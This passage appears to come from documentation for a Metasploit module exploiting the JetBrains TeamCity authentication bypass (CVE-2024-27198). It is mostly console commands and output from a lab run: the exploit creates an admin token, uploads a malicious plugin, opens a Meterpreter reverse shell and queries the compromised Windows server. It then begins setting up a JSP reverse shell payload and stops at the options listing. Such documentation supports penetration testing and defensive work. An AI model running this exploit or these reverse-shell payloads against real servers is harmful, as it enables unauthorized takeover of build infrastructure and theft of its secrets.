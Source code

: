 ```

Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c1hvczdQOUFMX2J5Z3NiZU9MYzFDSEdPQ213.Mzk3NmQ5MmQtOTBmOC00OGNjLTkyNWEtMzRhYWI2YzUwMTU4
[*] Uploading plugin: TdbCU0EE
[*] Sending stage (57971 bytes) to 192.168.86.68
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.68:53099) at 2024-02-23 14:13:22 +0000
[*] Deleting the plugin...
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of 'C:\TeamCity\webapps\ROOT\plugins\TdbCU0EE' on the target
[!] This exploit may require manual cleanup of 'C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_TdbCU0EE' on the target
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\TdbCU0EE' on the target

meterpreter > getuid
Server username: WIN-CMULENHFCK7$
meterpreter > sysinfo
Computer        : WIN-CMULENHFCK7
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > 
```

### Java Server Page

```
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set target 1
target => 1
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.68    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              8111             yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
```